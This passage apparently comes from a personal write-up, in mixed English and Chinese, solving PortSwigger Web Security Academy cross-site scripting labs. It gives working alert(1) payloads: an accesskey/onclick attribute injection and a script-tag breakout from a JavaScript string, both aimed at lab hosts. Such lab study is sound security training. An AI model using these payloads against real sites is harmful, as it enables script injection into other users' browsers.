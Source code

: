 To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

    ALT+SHIFT+X
    CTRL+ALT+X
    Alt+X

Please note that the intended solution to this lab is only possible in Chrome. 

### 題目解釋
不知道 QQ

### 解答
不知道在幹嘛，這樣就解掉ㄌ，怪
```
https://ac501f4c1e11ddbac0d923cd00260062.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```

## [Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)
### 題目敘述
 This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 

### 題目解釋
直接把 parameter 塞進 JS 中

### 解答
發現輸入
```
GET /?search=123"<script>alert(1)</script>
```

他會爛掉，直接用我的 `</script>` 閉合掉 script ㄌ

```
<script>
var searchTerms = '123"<script>alert(1)</script>
```

所以我

```
GET /?search=123"<script>alert(1)</script><script>alert(1)</script> HTTP/1.1
```

